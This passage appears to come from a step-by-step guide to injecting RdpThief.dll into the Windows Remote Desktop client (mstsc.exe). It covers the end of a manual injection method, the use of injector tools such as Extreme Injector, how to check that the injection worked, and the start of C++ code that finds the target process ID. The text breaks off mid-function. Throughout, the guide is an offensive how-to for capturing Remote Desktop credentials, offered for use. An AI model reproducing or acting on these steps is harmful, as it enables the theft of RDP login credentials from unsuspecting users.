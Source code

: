    ```csharp
   WaitForSingleObject(hThread, INFINITE);
   ```

8. **Clean Up:**

   - Free the allocated memory in the target process.
   - Close handles to the process and thread.

#### **Method 2: Using a Pre-Built Tool (e.g., Process Hacker or Extreme Injector)**

1. **Open the Tool**: 
   Download and run a DLL injection tool like [Extreme Injector](https://guidedhacking.com/resources/extreme-injector.1/) or [Process Hacker](https://processhacker.sourceforge.io/).

2. **Select `mstsc.exe`**: 
   In the injector, select the `mstsc.exe` process.

3. **Load `RdpThief.dll`**: 
   Browse to your `RdpThief.dll` file and add it to the list.

4. **Inject**: 
   Click on "Inject" to inject the DLL into `mstsc.exe`.

### **Step 3: Verify Injection**

1. **Monitor Process Behavior**: 
   Check if `mstsc.exe` exhibits the expected behavior. You can use tools like Process Monitor or Process Explorer to ensure the DLL is loaded.

2. **Check for Output**: 
   If `RdpThief.dll` generates logs or output, verify that they are being produced as expected.



### **Step-by-Step Guide to DLL Injection in C++**

1. **Include Necessary Headers:**
   You need to include the necessary Windows headers for process manipulation and memory management.

   ```cpp
   #include <windows.h>
   #include <tlhelp32.h>
   #include <iostream>
   ```

2. **Find the Target Process (`mstsc.exe`):**

   First, you need to find the Process ID (PID) of the target process (`mstsc.exe`):

   ```cpp
   DWORD FindProcessId(const std::wstring& processName) {
       PROCESSENTRY32 processInfo;
       processInfo.dwSize = sizeof(processInfo);

       HANDLE processesSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
       if (processesSnapshot == INVALID_HANDLE_VALUE) {
           return 0;
       }

       Process32First(processesSnapshot, &processInfo);
       if (processName == processInfo.szExeFile) {
           CloseHandle(processesSnapshot);
           return processInfo.th32ProcessID;
       }

       while (Process32Next(processesSnapshot, &processInfo)) {
           if (processName == processInfo.szExeFile) {
               CloseHandle(processesSnapshot);
               return processInfo.th32ProcessID;
   ```